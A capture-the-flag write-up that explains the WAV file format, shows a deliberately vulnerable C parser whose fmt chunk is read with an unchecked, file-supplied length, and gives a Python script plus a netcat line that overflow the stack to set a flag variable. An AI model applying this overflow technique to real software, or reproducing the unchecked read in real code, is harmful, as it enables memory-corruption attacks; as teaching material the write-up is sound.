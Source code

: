 # flood writeup

> I've started growing my own WAV file parser. Sadly, it's not getting far, and
> the soil seems to be really dry. Can you flood it to help me?

In this challenge, we are presented with a web interface to upload WAV files,
which then get parsed by some C code, given to the participant. (As an
alternative to using a web interface, a raw TCP connection using `telnet` or
`netcat` can be used as well.)

Before we look at the specifics of this challenge, let's first review how WAV
files work internally (cf. e.g.
[here](https://www.mmsp.ece.mcgill.ca/Documents/AudioFormats/WAVE/WAVE.html),
note that everything in WAV files is little-endian):

A WAV file starts with a RIFF header, which is four magic bytes (`RIFF`)
followed by a 4-byte value denoting the number of bytes the rest of the file
consists of. This RIFF header is then followed by four more magic bytes, `WAVE`.

The rest of the file consists of various RIFF *chunks*, each starting with
four magic bytes, followed by a 4-byte size. Chunks are used to contain the
audio data itself, as well as metadata (both about how to decode this audio
data, and things like music metadata like the title of the track and who
composed it). The `data` chunk contains the actual audio data, while the `fmt `
chunk stores the metadata necessary for decoding, such as the number of audio
channels (mono, stereo, or more) and the sample rate.

Alright, with that out of the way, let's have a look at the code of the
challenge.

```c
struct riff_header {
	uint32_t magic;
	uint32_t size;
};

enum wavefmt_types { /* snip */ };

struct wavefmt {
	uint16_t fmt; // see enum above
	uint16_t channels; // 1 or 2
	uint32_t samplerate;
	uint32_t datarate; // bytes per second; sample rate * channels * bit depth / 8
	uint16_t blockalign;
	uint16_t bitdepth;
};

int main(int argc, char** argv) {
	volatile int print_flag = 0;
	struct wavefmt fmt;
	struct riff_header hdr;
	uint32_t totalsize;
	void* data;

	memset(&fmt, 0, sizeof(fmt));

	fread(&hdr, sizeof(hdr), 1, stdin);
	check(stdin);
	if (hdr.magic != RIFF_MAGIC) error("Bad RIFF header magic!\n");
	if (hdr.size < 4) error("Invalid RIFF header!\n");
	totalsize = hdr.size;

	fread(&hdr.magic, sizeof(uint32_t), 1, stdin);
	check(stdin);
	if (hdr.magic != WAVE_MAGIC) error("Bad WAVE header magic!\n");
	totalsize -= 4;

	while (totalsize > 8) {
		fread(&hdr, sizeof(hdr), 1, stdin);
		check(stdin);
		totalsize -= sizeof(hdr) + hdr.size;

		if (hdr.magic == Wfmt_MAGIC) {
			fread(&fmt, hdr.size, 1, stdin);
			check(stdin);
		} else if (hdr.magic == Wdata_MAGIC) {
			if (fmt.fmt == 0) error("data chunk comes before the fmt chunk!\n");

			data = calloc(hdr.size, 1);
			if (data == NULL) error("Out of memory.\n");

			fread(data, 1, hdr.size, stdin);
			check(stdin);
		} else if (fseek(stdin, hdr.size, SEEK_CUR))
			error("Seek failed: %s\n", strerror(errno));
	}

	if (print_flag) print_the_flag();

	free(data);
	return 0;
}
```

This code simply checks the header, then looks for the `fmt ` and `data`
chunks, while ignoring everything else. However, there's something to note
here: the local variable `fmt` is allocated on the stack (with type `struct
wavefmt`), while it is read from the file using the following line of code:

```c
fread(&fmt, hdr.size, 1, stdin);
```

In other words, the code will use the length *from the file*, without any
checks on how small or large this length is. This means we can write *more*
than the size of `struct wavefmt` (which is 16 bytes). But what effects will
this have?

Well, it will start overwriting other local variables on the stack. This
includes the `print_flag` variable. If we can overwrite it to become anything
nonzero, the code will give us the flag!

Now, how can we make a WAV file that does this for us? Well, luckily, this
isn't too difficult in Python:

```python
from struct import pack

EXTRABYTES = 4
DATABYTES = int((44100*2*16//8) / 1000)  # 1 millisecond of audio data

with open('hax.wav', 'wb') as f:
    # RIFF header
    f.write(b"RIFF")
    f.write(pack('<I', EXTRABYTES+16+8+8+4))
    # magic WAVE bytes
    f.write(b"WAVE")

    # fmt chunk
    f.write(b"fmt ")
    f.write(pack('<I', EXTRABYTES+16))
    f.write(pack('<HHIIHH', 1, 2, 44100, 44100*2*16, 1, 16))  # whatever
    # !!! data that gets written to print_flag due to the buffer overflow !!!
    f.write(b"A" * EXTRABYTES)  # this can be anything, as long as it's not zero

    # data chunk
    f.write(b"data")
    f.write(pack('<I', DATABYTES))
    f.write(bytearray(DATABYTES))  # bytearray(N) returns an array of N all-zero bytes
```

Uploading the (base64 representation of) the generated WAV file gives us the
flag, hooray! (Or, using `< hax.wav nc $remoteip 23` works, too.)

